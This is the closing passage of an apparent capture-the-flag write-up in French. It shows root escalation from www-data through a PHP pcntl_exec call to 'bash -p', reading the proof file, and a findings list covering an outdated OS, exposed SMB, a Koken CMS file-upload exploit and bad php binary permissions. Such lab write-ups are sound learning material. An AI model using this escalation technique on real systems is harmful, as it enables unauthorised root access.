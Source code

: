 

Nous sommes sur un compte www-data il semble le plus logique de passer la commande /bin/bash -p avec php7.2



$ /usr/bin/php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"
whoami
root
ls /root/ 
proof.txt
cat /root/proof.txt
                                                                   
                                .:/://::::///:-`                                
                            -/++:+`:--:o:  oo.-/+/:`                            
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`                         
                       :o:``oyo/o`. `      ```/-so:+--+/`                       
                     -o:-`yh//.                 `./ys/-.o/                      
                    ++.-ys/:/y-                  /s-:/+/:/o`                    
                   o/ :yo-:hNN                   .MNs./+o--s`                   
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s                   
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/                  
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h                  
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.                 
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-                 
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.                 
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h`                 
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o                  
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`                  
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-                   
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.                    
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`                     
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-                       
                        ./+:`:yh:dso/.+-++++ss+h++.:++-                         
                           -/+/-:-/y+/d:yh-o:+--/+/:`                           
                              `-///////////////:`                               
                                                                                

Follow me at: http://v1n1v131r4.com


d41d8cd98f00b204e9800998ecf8427e

Nous avons terminé ! 

FINDINGS a trouvé sont : 

Version obsolète du system 16.04 LTS 
SMB actif sur un serveur Web c'est juste non acceptable 

koken CMS File upload arbritary upload
https://www.exploit-db.com/exploits/48706

php7.2 mauvais droit mis en place sur /usr/bin/php7.2 et versions non a jour 













